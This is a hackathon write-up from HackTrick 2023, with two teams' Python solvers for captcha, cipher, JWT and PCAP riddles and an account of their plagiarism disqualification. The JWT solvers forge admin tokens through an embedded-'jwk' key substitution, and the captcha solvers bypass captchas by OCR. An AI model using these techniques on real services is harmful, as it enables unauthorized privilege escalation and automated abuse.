




<a href="#captcha">Captcha</a>

# Table of Contents
<nav class="toc">
<ul>
    <li><a href="#welcome">Welcome</a>
    <li><a href="#riddles">Riddles</a></li>        
        <ul>
          <li><a href="#captcha">Captcha</a></li>
          <li><a href="#cipher">Cipher</a></li>
          <li><a href="#server">Server</a></li>
          <li><a href="#pcap">pcap</a></li>
        </ul>
    <li><a href="#maze-solver">Maze Solver</a></li>
    <li><a href="#the-drama">THE DRAMA</a></li>
    <li><a href="#hackathon-workflow">hackathon workflow</a></li>
    <li><a href="#wednsday-surprise">Wednesday surprise</a></li>
    <li><a href="#plagiarism-rules">Maze Solver</a></li>
    <li><a href="#stanford-moss-tool-checking">Stanford Moss Tool Checking</a></li>
    <li><a href="#slack-kicking-off">slack kicking off</a></li>
    <li><a href="#conclusion">conclusion</a></li>
    <li><a href="#shout-out">Shout out</a></li>
    </li>
</ul>
</nav>


# Welcome
That's our short journey with Hacktrick this year be ready for some useful information and a lot of drama.
First what is hacktrick??  
Hacktrick is a hackathon organized by Dell that took place in Egypt. The hackathon aimed to bring together young innovators and developers to work on real-world challenges and create innovative solutions using technology.  
This year the hackathon was about AI, cybercecurity and optimization, the problem in short is that you enter a maze (10*10) at the top left corner and the exit is at bottom right corner inside the maze there are 4 children you want to rescue, to rescue a child you need to solve a riddle and the score depends on the number of children you rescued, how many steps you took, and the time to solve the riddles and there is a rule that if you didn't exit at the bottom right corner you will get only 80% of the score finalyy you have 5 submissions and your best one is taken into account.
So intintuitively your aim was to rescue the largest number of children in the least number of steps.
You can make many approaches for this problem like RL and Informed search, we will talk about our approach later.  
[for the official documentation here.](https://github.com/HackTrick23/HackTrick23)
# Riddles
Let's talk about the riddles firstly, there was 4 types of riddles each has a different weight (captcha=10, cipher=20, server=30, PCAP=40) To be honest the riddles difficulity level was disappointing they mostly depended on if you know base64 encoding or not, at our preperation for the hackathon we expected more than that.  
in the next few lines i will show snippets of code for out team "code of duty" and our friends team "respectively" you will know the reason for that in the DRAMA part stay tuned.  
## Captcha
You are given an amazon captcha in the form of 2d list and the target is to return the text inside it.  
solving it literrally took from us 2 lines of code using easyOCR open library which depends on pytorch an easier library was amazon captcha and it needs 2 lines of code too.
### code of duty approach:
```py
def captcha_solver(question):
    reader = easyocr.Reader(['en'])
    result = reader.readtext(np.array(question, dtype=np.uint8))
    return result[0][1]
```
### respectively approach: <a id="section-1"></a>
```py
def captcha_solver(question):
    img_bytes = BytesIO()
    img = Image.fromarray(np.array(question).astype('uint8'))
    img.save(img_bytes, format='JPEG')
    captcha = AmazonCaptcha(img_bytes)
    captcha.img = img
    solution = captcha.solve()
    return solution
```
## Cipher
You are given message which was altered after it was ciphered and you need to return the original message.  
if you just noticed the it was altered just by encoding it base64 you are done with it, after decoding it it gives you the nessage in binary with the shift and you can solve it with normal Caesar cipher.
### code of duty approach:
we have a class to implement addpadding, getMessage functions
```py
def cipher_solver(question):
    text = addpadding(question)
    binary = base64.decodebytes(text)
    binaryStr = str(binary)[3:-2]
    msg, shift = binaryStr.split(",")
    shift = int(shift, 2)
    return getMessage(msg, shift)
```
### respectively approach:
```py
def cipher_solver(question):
    padding = 4 - len(question) % 4
    question += "=" * padding
    decoded = base64.b64decode(question).decode("utf-8")
    cipherBits, shiftBits = decoded.split(',')
    shift = int(shiftBits[:-1], 2)
    cipherBits = cipherBits[1:]

    capital = ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U',
               'V', 'W', 'X', 'Y', 'Z']
    small = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u',
             'v', 'w', 'x', 'y', 'z']

    solution = ""
    for i in range(len(cipherBits) // 7):
        num = int(cipherBits[i * 7:(i + 1) * 7], 2)
        num = num % 128
        index = (ord(chr(num).lower()) - 97) - shift

        if num > 96:  # small
            solution += small[index]
        else:  # capital
            solution += capital[index]

    return solution
```
## Server
Ok honstly that problem took from us a lot much than it deserve.
you are given a jwt token which was signed with a private key and you to verify it you must decode that sign by a public key, the trick was that the public key used for vervication wwas send in he header of the token, so the solution wan simply through out this public key change what you need in the token and sign it with any private key and send with the header your public key.
### code of duty approach:
the public and privates keys were generated previously and loaded from a file.
```py
def server_solver(question):
    decoded_payload = jwt.decode(question, options={"verify_signature": False})
    decoded_header = jwt.get_unverified_header(question)

    decoded_header['jwk']['e'] = _encode64Int(public_key.public_numbers().e)
    decoded_header['jwk']['n'] = _encode64Int(public_key.public_numbers().n)
    decoded_payload['admin'] = "true"
    jwt_token = jwt.encode(decoded_payload, private_key, algorithm="RS256", headers=decoded_header)
```
### respectively approach:
```py
def server_solver(question):
    payload = jwt.decode(question, options={"verify_signature": False}, algorithms=["RS256"])
    payload['admin'] = "true"

    private_key = rsa.generate_private_key(
        public_exponent=65537,
        key_size=2048,
    )

    # Serialize the private key to PEM format
    pem_private_key = private_key.private_bytes(
        encoding=serialization.Encoding.PEM,
        format=serialization.PrivateFormat.PKCS8,
        encryption_algorithm=serialization.NoEncryption(),
    )

    # Generate the public key from the private key
    public_key = private_key.public_key()

    # Serialize the public key to PEM format
    pem_public_key = public_key.public_bytes(
        encoding=serialization.Encoding.PEM,
        format=serialization.PublicFormat.SubjectPublicKeyInfo,
    )

    jwk_public_key = jwk.JWK.from_pem(pem_public_key)

    new_token = jwt.encode(payload, key=pem_private_key, algorithm='RS256', headers={'jwk': jwk_public_key,
                                                                                     'kid': jwk_public_key["kid"]})

    return new_token
```
## PCAP
giving a pcap file, and you know that the server was DNS exfilterated from a specific IP you need to get what information was leaked.
just filter the packets with the IP again decode the subdomains with base64 and that's it.
### code of duty approach:
```py
def pcap_solver(question):
    sol = {}
    # Decode the Base64-encoded pcap file
    pcap_data = base64.b64decode(question)
    # Parse the packets using scapy
    packets = rdpcap(BytesIO(pcap_data))
    dns_packets = filter(lambda pkt: DNS in pkt and pkt[IP].dst == '188.68.45.12', packets)
    for pkt in dns_packets:
        query = pkt[DNSQR].qname.decode()
        splited = query.split(".")
        if len(splited[0]) % 4 != 0:
            padding_length = 4 - (len(splited[0]) % 4)
            splited[0] += "=" * padding_length
        if len(splited[1]) % 4 != 0:
            padding_length = 4 - (len(splited[1]) % 4)
            splited[1] += "=" * padding_length
        try:
            # Decode the base64 string to bytes
            num = base64.b64decode(splited[0])
            content = base64.b64decode(splited[1])
            num_str = num.decode('ascii')
            content_str = content.decode('ascii')
            sol[num_str] = content_str
        except:
            print("error")

    secret = ""
    for key in range(1, len(sol)+1):
        secret += sol[str(key)]
    return(secret)
    
```
### respectively approach:
```py
def pcap_solver(question):
    pcap_data = base64.b64decode(question)
    packets = rdpcap(io.BytesIO(pcap_data))
    data = {}
    for packet in packets:
        if DNSQR in packet and IP in packet and packet[IP].src == '188.68.45.12':
            dns_query_name = packet[DNSQR].qname.decode('utf-8')
            num = dns_query_name.find('.')
            rank_base64 = dns_query_name[:num]
            padding = 4 - len(rank_base64) % 4
            rank_base64 += "=" * padding
            first = base64.b64decode(rank_base64).decode('utf-8')
            cipherbase64 = dns_query_name[num + 1:dns_query_name.find('.', num + 1)]
            padding = 4 - len(cipherbase64) % 4
            cipherbase64 += "=" * padding
            second = base64.b64decode(cipherbase64).decode('utf-8')
            data[first] = second
    data = dict(sorted(data.items()))
    solution = ""
    for i in data:
        solution += data[i]
    return solution
```
# Maze Solver
As i mentioned before the maze was 10*10 you need to enter and rescue as many children as you can then exit in least number of steps and we have 5 submissions.
we worked on a combining algorithm between RL and heuristics and managed to build 2 models working very well and got 1st place with them in 2 submissions and the end of the hackathon we got 6th place, our friends on the other hand worked with DFS with heuristics and did a great job too and got 5th place at the end.
[to see the full code of the two teams here.](...........................................)  
To be there was a big problem with the maze that it didn't change through the  submissions so it was easy for all the teams to follow up the top teams on the leaderboard and inspire the solution from their results.
and that's what happened in the end when the teams realized that rescuing 2 children only would give you a great score so we began to make our model more greedy and managed to rescue 2 children in the minimum steps(50 steps) which is the optimal greedy solution and our friends realized that trick too and managed to get that optimal greedy solution.
it was great work from both of us and we enjoyed optimaizing our code and being greedy.

# THE DRAMA
Ok, I think you got bored but here is some thrilling actions happened at the end

## Hackathon workflow:
the hackathon openning was at friday(10th march) it was a nice day and very delicious food(the most thing i enjoyed), the hackathon is officially began at the oppening we didn,t do much of work on friday and saturday but from sunday we worked very hard and made our first submit on tuesday at 6 am before our friends we didn't get too much score (7) but it was just a trial our friends submitted after us and they didn't do very well too but with the second submission for us we got first place with 149 steps  but we didn't keep it for long then we worked on some optimization(literally this submission was through a different model) and made our third submission and took the first place again with 52 steps only but we were greedy and rescued only 2 children and the 2 left submissions were a foregone conclusion.
our friends on the other side got some optimization too managed to scroll up in the leader board and with their 4th submision finally they made a remontada on us and got 5th place but they deserved it. 

## Wednsday surprise:
we all slept on tuesday having no ideas except of planning to the next phase and reserving train tickets from alexandria to cairo to attend the closing but we the 2 teams got a rejection mail with no reasons  after contacting some mentors they told as that it was a paliagrism case we tried to defend ourselves a lot but no one hears they just wanted to begin the next phase and they didn't care about us and at the end of the day they kicked us out of the slack just because we expressed our opinions.

## plagiarism rules:
they didn't say anything about plagiarism in the documntation or in the brief video except this phrase "any plagiarism will be detected and penalized" but let us see what they have told us to shut us up:
- plagiarism is based on multiple aspects:
    - the total score of the leaderboard submission and its details (which was the first time on my life to hear about this invented rule).
    - time taken to solve different riddles (which differs from submission to another on the same machine XD, take into consideration that submissions were executed locally).
## Stanford MOSS tool checking:
To make sure that we didn't make any paliagrism we checked the two codes by ourselves using tool of MOSS and as we expected we got similarity at the base code only (should we account it??)
<style>
.my-image {
  max-width: 100%;
  display: block;
  margin: 0 auto;
}
</style>
## Slack Kicking off:
that is the post for why we were kicked off, and that,s make us wonder "what is success for them??" is that making a great show for openning and closing, or taking awesome photos and presenting a weak content in the challenge itself
## conclusion:
As a summary we were doing a great perfomance at this hackathon and giving it a lot of efforts but as a result we got disqualified just because we got too close scores without any strong evidence and without a any reasonable clarification, Thanks HackTrick for that awful experience.
## Shout Out:
Thanks for all my team members [mohamed aiad](https://github.com/mohamedaiad), [mohamed mostafa](https://github.com/mohamed-euler), [yousef ahmed](https://github.com/usefSaeed), [michael samir](https://github.com/MichaelSamir75) and [ahmed abdallah](https://github.com/ahme2001), and thanks for all my friends from **"RESPECTIVELY"** [Abd-elrahman Bahaa](https://github.com/AbdelrahmanMosly), [Abd-elrahman El-sayed](https://github.com/Mento79), [Ahmed Adel](https://github.com/Deffo0), [Yousef bazina](https://github.com/Bazina), [Omar Metmawwah](), [Mohamed Kotb](https://github.com/MuhammadElkotb) I am really so proud of our work and what we have achieved regardless the endings and I am really happy of of supporting each others we are much more than a family not just compititors or friends.
